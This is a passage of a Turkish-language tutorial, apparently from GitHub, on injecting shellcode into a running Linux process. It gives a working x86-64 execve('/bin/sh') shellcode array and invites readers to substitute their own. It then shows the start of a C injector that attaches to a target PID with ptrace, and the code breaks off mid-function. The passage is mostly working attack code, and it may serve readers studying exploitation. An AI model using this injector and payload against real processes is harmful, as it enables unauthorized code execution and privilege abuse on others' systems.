 Ardından `$ echo $SHELL` komutu ile /bin/sh 'a düştüğümüzü görebiliyoruz.

```
unsigned char shellcode[] = \
"\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05";
```
Bu kısımdan shellcode 'u kendinize göre ayarlayabilirsiniz


### Scriptin Tamamlanmış Hali

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <stdint.h>
 
#include <sys/ptrace.h>
#include <sys/types.h>
#include <sys/wait.h>
#include <unistd.h>
 
#include <sys/user.h>
#include <sys/reg.h>
 
 
 
unsigned char shellcode[] = \
"\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05";
 
 
 
 
int
main (int argc, char *argv[])
{
  pid_t                   target;
  struct user_regs_struct regs;
  int                     syscall;
  long                    dst;
  int                     SHELLCODE_SIZE;
  
  
    
 
SHELLCODE_SIZE = strlen(shellcode);
 
  if (argc != 2)
    {
      fprintf (stderr, "Usage:\n\t%s pid\n", argv[0]);
      exit (1);
    }
  target = atoi (argv[1]);
  printf ("+ Tracing process %d\n", target);
  if ((ptrace (PTRACE_ATTACH, target, NULL, NULL)) < 0)
    {
      perror ("ptrace(ATTACH):");
      exit (1);
    }
  printf ("+ Waiting for process...\n");
  wait (NULL);
  
  int
  
  
```